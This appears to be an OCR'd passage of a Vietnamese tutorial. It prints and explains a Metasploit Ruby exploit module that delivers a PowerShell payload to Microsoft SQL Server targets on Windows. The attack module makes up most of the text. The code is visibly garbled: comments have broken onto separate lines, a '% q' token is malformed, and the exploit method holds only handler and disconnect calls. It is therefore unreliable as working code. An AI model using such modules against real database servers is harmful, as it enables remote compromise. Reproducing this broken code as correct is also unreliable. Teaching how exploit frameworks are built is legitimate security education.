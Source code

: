 Dưới đây là một đoạn mã khai thác sử dụng mixin và được xây dựng để khai thác lỗ hổng thực thi mã từ xa trên một số phiên bản “sql server 2008”. Module này được kế thừa từ module “*msf/exploit/remote/MSSQL*”:

```ruby
require 'msf/core'#
require core libraries
	class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking# reliable exploit ranking
	include Msf::Exploit::Remote::MSSQL# 
	include the mssql.rb library
	def initialize(info = {})
		super(update_info(info, 'Name' => 'Microsoft SQL Server PowerShell Payload',
 		'Description' => % q {
  This module will deliver our payload through Microsoft PowerShell using MSSQL based attack vectors.
}, 
		'Author' => ['David Kennedy "ReL1K" <kennedyd013[at]gmail.com>'],
		'License' => MSF_LICENSE, 
		'Version' => '$Revision: 8771 $', 
		'References' => [['URL', 'http://www.secmaniac.com']], 
		'Platform' => 'win', #target only windows 
		'Targets' => [
		['
		Automatic', {}], #automatic targeting
		],
 		'DefaultTarget' => 0)) 
register_options(
	[
	OptBool.new('UsePowerShell', [false, "Use PowerShell as payload delivery method instead", true
	]), #default to PowerShell
	]) 
end
	def exploit 
		handler# call the Metasploit handler disconnect# after handler 
	disconnect 
	end 
end
```

Trước khi viết mã cho phần thực thi, chương trình cần khai báo một số giá  trị cần thiết 
- Các giá trị “Name”, “Description”, “Author”, “License”, “Version”, “References” để khai báo các thông tin mô tả cơ bản về module.
- Nền tảng xảy ra lỗ hổng tiếp tục được khai báo ở giá trị “Platform”. Ở đây là hệ điều hành “window” với mục tiêu là giá trị các phiên bản của window. Được xác định tự động.
- Một tham số mới được khai báo ở đây là “UsePowerShell” được sử dụng như là phần chính của mã khai thác và được khai báo với giá trị bằng “true”.
- Tiếp theo là lệnh “handler” trong hàm exploit để kiểm soát các kết nối giữa máy tấn công và máy mục tiêu.

Nhiệm vụ chính của mã khai thác trên là kế thừa lại module khai thác “*Msf::Exploit::Remote::MSSQL*” và đặt giá trị mặc định cho tham số “UsePowerShell” luôn là “true”.
